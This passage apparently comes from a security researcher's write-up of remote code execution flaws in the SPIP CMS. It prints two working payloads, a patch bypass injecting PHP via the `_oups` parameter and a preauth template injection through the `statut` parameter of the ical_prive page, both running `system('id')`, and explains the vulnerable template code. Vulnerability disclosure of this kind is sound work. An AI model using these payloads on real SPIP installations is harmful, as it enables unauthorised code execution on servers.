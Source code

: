 > This patch isn't right... Please someone, break it!

And someone did: [@SpawnZii](https://twitter.com/SpawnZii) & Abyss-W4tcher! ^.^

They basically used the same bug, but extended the base64 payload with injected raw php code. Smart move, works like a charm! :)

`/ecrire/?exec=article&id_article=1&_oups=TzoxOiJBIjoxOntzOjE6ImEiO3M6MzoiUG9DIjt9'"<?php system('id');?>`

- https://spawnzii.github.io/posts/2022/07/how-we-have-pwned-root-me-in-2022/
- https://github.com/Abyss-W4tcher/ab4yss-wr4iteups/tree/master/SPIP%204.1.2%20Vulnerabilities

# Fresh RCE | What you're here for!

## Preauth custom SSTI on icalendar generation

<img class="img_med" src="meme-rce-day.png" alt="meme-rce-day">

The first RCE I'll introduce here, is one that I found quite some time ago, and it has been "patched" while updating the codebase, it's not a security fix, it's just... Random luck I guess!

Here's the final payload, but what? Why? How?

`/spip.php?page=ical_prive&statut='=='foo'){echo(42);};}else{system('id');};if(false){if('foo`

In its custom templating engine, the Spip framework makes use of code snippets like `</BOUCLE0><BOUCLE0 {PARAMS} >`, this will be parsed in a specific way and populated. It seems safe in many ways as the populated variables aren't supposed to be user controlled, and angle brackets < and > are escaped. But a code refactoring that happened in January 2018 changed the way `statut` was populated, and it was then possible to use an array merge taking place beforehand to takeover this variable. The template would then be rendered with user-controlled values. The fact that the content was placed directly in a php if condition allowed the execution of php code without angle brackets, it was only required to escape the single quotes, fix the context to have a valid php syntax within the eval call, and inject the right payload.

Content of `./spip/prive/ical_prive.html`:
```php
<BOUCLE0(AUTEURS){tout}{id_auteur}{lang_select}><?php
if ('[(#ID_AUTEUR|securiser_acces{#ENV{arg},ical})]' OR /* spip < 1.9 */
	'[(#ID|securiser_acces{#ENV{cle},ical})]') {
?>#HTTP_HEADER{Content-Type: text/calendar}
#HTTP_HEADER{Content-Disposition: attachment; filename=#NOM_SITE_SPIP|textebrut|replace{\W,'_'}|concat{_prive.ics}}
#CACHE{0}
BEGIN:VCALENDAR
CALSCALE:GREGORIAN
--[SNIP]--
UID:message#ID_MESSAGE @ [(#URL_SITE_SPIP|filtrer_ical)]
```
